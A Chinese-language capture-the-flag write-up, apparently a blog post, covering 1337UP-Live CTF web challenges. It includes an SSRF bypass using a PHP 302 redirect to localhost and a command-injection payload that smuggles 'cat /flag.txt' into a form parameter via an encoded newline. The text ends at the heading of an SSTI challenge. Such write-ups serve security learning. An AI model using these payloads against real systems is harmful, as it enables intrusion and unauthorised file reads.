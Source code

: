 ﻿---
title: 1337UP-Live CTF
categories: 赛题wp
---



![image-20220313171846496](https://img-blog.csdnimg.cn/img_convert/12861926e195331ee087289f0532a01b.png)



# Dead Tube

- ssrf

很明显的一个ssrf，fetch发起网络请求，普通的进制绕过ip失败，尝试302跳转

![image-20220312111843078](https://img-blog.csdnimg.cn/img_convert/3848a71740b1e0afd700f0a0723d352a.png)

vps上弄个302跳转或者短链接即可，弄好nodejs的端口，起个apache服务

```
<?php
header("Location:http://127.0.0.1:8080/flag");
?>
```

FLAG：1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# Traveler

给了一个旅游主题的网站，翻来翻去只有两个php文件 /package-details.php和/package2-details.php

![image-20220312215921396](https://img-blog.csdnimg.cn/img_convert/debf064883090f93a403534a19c3c683.png)

这个按钮比较突兀，没什么美化，可能问题出在这里，提交抓包一下

![image-20220312220105764](https://img-blog.csdnimg.cn/img_convert/188c24a86ae1375e9ad1c5c9880bb2c6.png)

正常放包，发现页面回显 **Spots left: 42.**  再抓包，将pack参数放空回显 **An error occurred whilst executing: bash check.sh** 很明显存在命令注入，利用换行将执行结果回显到页面上

payload

```
pack=1%0acat /flag.txt&submit=Submit
```

![image-20220312220427177](https://img-blog.csdnimg.cn/img_convert/4990b309542f234fd51e89e9617ab2ba.png)

FLAG：1337UP{C0MM4nd_Inj3ti0n}

# 1 truth, 2 lies

- SSTI
